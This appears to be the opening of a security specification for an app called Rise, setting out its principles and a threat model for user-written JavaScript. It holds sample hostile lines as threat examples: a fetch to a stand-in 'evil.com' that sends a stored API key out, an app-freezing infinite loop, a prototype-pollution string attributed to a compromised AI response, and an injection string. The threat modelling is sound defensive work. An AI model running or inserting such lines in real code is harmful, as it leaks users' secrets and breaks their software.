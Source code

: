 # Security Specification

> Comprehensive security architecture for Rise - protecting users while empowering them with code execution capabilities.

## Philosophy

Rise faces a unique security challenge: we want to **empower users to write arbitrary JavaScript** (expressions, global functions) while **protecting them from malicious code** (from AI, plugins, or their own mistakes).

**Core Security Principles**:
1. **Defense in Depth**: Multiple layers of protection
2. **Fail Secure**: Errors should prevent execution, not allow bypass
3. **Transparency**: Users know what code is running and why
4. **Escape Hatches**: Users can override security for legitimate needs

---

## Threat Model

### Attack Vectors

#### 1. **Malicious User Expressions**
```javascript
// User types this in expression editor
"while(true){} // Infinite loop - freeze app"
"fetch('evil.com/steal?data=' + localStorage.getItem('apiKey'))"
"delete window.React // Break application"
```

#### 2. **Compromised AI Responses**
```json
{
  "expression": "__proto__.polluted = 'evil'; props.user.name",
  "aiGenerated": true
}
```

#### 3. **Malicious Plugins**
```javascript
// Plugin code could:
// - Read file system outside project
// - Exfiltrate API keys
// - Inject malicious code into generated files
// - Open backdoors in user's system
```

#### 4. **Injection Attacks**
```javascript
// User input that becomes code
const userName = "'; DROP TABLE users; --";
const expr = `user.name === '${userName}'`; // SQL-like injection
```
